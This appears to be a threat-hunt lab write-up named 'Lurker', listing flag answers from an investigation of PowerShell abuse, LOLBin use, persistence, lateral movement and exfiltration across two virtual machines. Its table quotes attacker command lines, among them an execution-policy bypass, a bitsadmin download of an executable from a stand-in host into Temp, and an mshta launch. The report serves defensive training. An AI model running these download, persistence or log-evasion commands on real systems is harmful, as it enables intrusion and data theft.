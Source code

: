 # 🕵️‍♀️ Threat Hunt Report: **Lurker**

Analyst: Steven Cruz

Date Completed: 2025-07-07

Environment Investigated: michaelvm, centralsrvr

Timeframe: June 14 – 18, 2025

## 🧠 Scenario Overview

What seemed like an isolated compromise may have been a smokescreen. An adversary has reemerged with improved evasion and more strategic objectives. This hunt follows a trail of suspicious PowerShell usage, financial document access, LOLBin abuse, and stealthy persistence across two systems: michaelvm and centralsrvr.

---

## 🎯 Executive Summary
The investigation revealed a multi-stage intrusion beginning with malicious PowerShell activity on michaelvm, followed by credentialed lateral movement to centralsrvr, culminating in data exfiltration to cloud services including Google Drive, Dropbox, and Pastebin. The adversary utilized LOLBins for stealth, registry and scheduled tasks for persistence, and evaded logging with PowerShell v2 and wevtutil log clearing.



---

## ✅ Completed Flags

| Flag # | Objective | Value |
|--------|-----------|-------|
| **Start** | First suspicious machine | `michaelvm` |
| **1** | First suspicious PowerShell execution | `"powershell.exe" -ExecutionPolicy Bypass -File "C:\Users\Mich34L_id\CorporateSim\Investments\Crypto\wallet_gen_0.ps1"` |
| **2** | Recon binary hash (SHA256) | `badf4752413cb0cbdc03fb95820ca167f0cdc63b597ccdb5ef43111180e088b0` |
| **3** | Sensitive document accessed | `QuarterlyCryptoHoldings.docx` |
| **4** | Last access timestamp | `2025-06-16T06:12:28.2856483Z` |
| **5** | bitsadmin command | `"bitsadmin.exe" /transfer job1 https://example.com/crypto_toolkit.exe C:\Users\MICH34~1\AppData\Local\Temp\market_sync.exe"` |
| **6** | Suspicious payload | `ledger_viewer.exe` |
| **7** | mshta command | `"mshta.exe" C:\Users\MICH34~1\AppData\Local\Temp\client_update.hta"` |
| **8** | SHA1 of ADS payload | `801262e122db6a2e758962896f260b55bbd0136a` |
| **9** | Registry autorun path | `HKEY_CURRENT_USER\S-1-5-21-2654874317-2279753822-948688439-500\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` |
| **10** | Scheduled task name | `MarketHarvestJob` |
| **11** | Lateral movement target | `centralsrvr` |
| **12** | Lateral movement timestamp | `2025-06-17T03:00:49.525038Z` |
| **13** | Targeted file hash (SHA256) | `b4f3a56312dd19064ca89756d96c6e47ca94ce021e36f818224e221754129e98` |
| **14** | Exfiltration process MD5 | `2e5a8590cf6848968fc23de3fa1e25f1` |
| **15** | Final exfil destination IP | `104.22.69.199` |
| **16** | PowerShell downgrade timestamp | `2025-06-18T10:52:59.0847063Z` |
| **17** | Log clearing timestamp | `2025-06-18T10:52:33.3030998Z` |